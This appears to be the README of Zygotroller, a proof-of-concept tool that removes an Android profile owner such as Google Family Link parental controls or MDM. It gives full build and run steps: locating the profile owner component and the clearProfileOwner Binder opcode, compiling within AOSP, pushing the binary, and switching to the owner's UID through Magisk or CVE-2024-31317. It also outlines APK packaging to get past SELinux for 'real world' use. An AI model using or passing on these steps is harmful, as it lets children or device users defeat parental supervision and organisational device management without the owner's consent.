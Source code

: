 # Zygotroller
Zygotroller is a proof-of-concept that shows how to remove an Android profile owner (used for parental controls or MDM) if you can become the user of the profile owner, for example, with CVE-2024-31317's Zygote injection bug, or Magisk.

Google's parental control system, Family Link, is shown as an example in this repo.

I won't be including how to use this with CVE-2024-31317 here because it doesn't fall under the scope of this guide. If you are interested in using this in a real world scenario, I recommend you take a look at [this repo](https://github.com/agg23/cve-2024-31317) for some blogs and details regarding how to use that CVE. At a high level, you need to rename the Zygotroll binary to `libSOMETHING.so` (replacing 'SOMETHING' with whatever you want), and include it in an APK so that SELinux allows the file to be executed. You will need developer mode+app installs enabled if planning on using this in a real world scenario.

The rest of the guide will assume you are using a rooted, supervised device with magisk. If you are not rooted, look into CVE-2024-31317.

# Using
You will need a modern-ish device running a Debian based distro to compile Zygotroller. Prebuilts may or may not be available depending on the time of reading this.

Unfortunately this relies on internal parts of Android, so you need to clone the entirety of the Android source code in order to build Zygotroller. Make sure you have at least 400gb of free space, although you will likely use less.

IMPORTANT IF USING WSL: Make sure you have a LOT of swap, or WSL will crash. I personally used 32G:
```
sudo fallocate -l 32G /swapfile
sudo chmod 600 /swapfile
sudo mkswap /swapfile
sudo swapon /swapfile
```

Now for cloning AOSP source:
```
mkdir ~/aosp
cd ~/aosp
```
`repo init --partial-clone --no-use-superproject -b android-latest-release -u https://android.googlesource.com/platform/manifest`

`repo sync -c -j8` (might take multiple tries due to ratelimits)

`source build/envsetup.sh`

`aosp_cf_x86_64_only_phone-aosp_current-eng` (if not compiling for emulator, change to use the arm version)

`cd ~/aosp/external`

`git clone https://github.com/rifting/Zygotroller`

`cd Zygotroller`

Now we need to change the values in the script to our actual profile owner and opcode for clearProfileOwner.
The profile owner can either be in the Google play services "supervision" package or in Google play services itself. Run `dpm list-owners`, my result was like so:
```
$ dpm list-owners
1 owner:
User  0: admin=com.google.android.gms.supervision/com.google.android.gms.kids.account.receiver.ProfileOwnerReceiver,ProfileOwner
```
This gives us two pieces of information we need for Zygotroller, the package name (com.google.android.gms.supervision) and the class name (com.google.android.gms.kids.account.receiver.ProfileOwnerReceiver).

Edit zygotroll.cpp with your preferred text editor and update these lines to your profile owner component:
```
    // Family Link profile owner
    std::string pkg = "com.google.android.gms.supervision";
    std::string cls = "com.google.android.gms.kids.account.receiver.ProfileOwnerReceiver";
```
Now you need to find the opcode for the clearProfileOwner function of DPM. This was "91" for me, but it varies depending on the version/type of Android you're running. To get the opcode for clearProfileOwner, I used [android-svc](https://github.com/T-vK/android-svc) with the command 

`android-svc convert 'android.app.admin.IDevicePolicyManager.clearProfileOwner("dummy")'`

The number you see in the output will be the opcode for clearprofile owner, open up zygotroll.cpp again with your preferred text editor and edit the number here, to your actual opcode:
```
    // Transaction code 91 was ClearProfileOwner for my device
    dpm->transact(91, data, &reply);
```

Now we need to compile zygotroller:

`mm`

This can take a LONG time on initial build, subsequent builds will take <1m on most modern machines.

Find your binary in `~/aosp/out/target/product/vsoc_x86_64_only/system/bin/zygotroller`

Push this to your device: `adb push ~/aosp/out/target/product/vsoc_x86_64_only/system/bin/zygotroller /data/local/tmp`

Set correct permissions `adb shell chmod +x /data/local/tmp/zygotroller`.

The family link profile owner was userid 10090 for me, AKA u0_a90
Do `dumpsys package com.google.android.gms.supervision | grep userId=`

Now switch to that user with something like Magisk or CVE-2024-31317. The username will be "u0_" + the last 2 numbers you got from the user id.

Example for magisk: `su u0_a90` (your username may or may not be different, make sure to replace mine with the correct one!)

Now run Zygotroller!
`/data/local/tmp/zygotroller`

You should see that the Family Link profile owner has been removed.

Before:
```
$ dpm list-owners
1 owner:
User  0: admin=com.google.android.gms.supervision/com.google.android.gms.kids.account.receiver.ProfileOwnerReceiver,ProfileOwner
```
```
$ abx2xml /data/system/users/0.xml -
...
<device_policy_local_restrictions>
    <restrictions_user user_id="0">
      <restrictions no_factory_reset="true" no_config_location="true" no_add_clone_profile="true" no_safe_boot="true" no_config_credentials="true" no_config_date_time="true" />
    </restrictions_user>
  </device_policy_local_restrictions>
...
```

After:
```
$ dpm list-owners
no owners
emu64xa:/ $
```
```
$ abx2xml /data/system/users/0.xml -
...
<device_policy_local_restrictions />
...
```


## Special Thanks
[gburca for BinderDemo](https://github.com/gburca/BinderDemo)
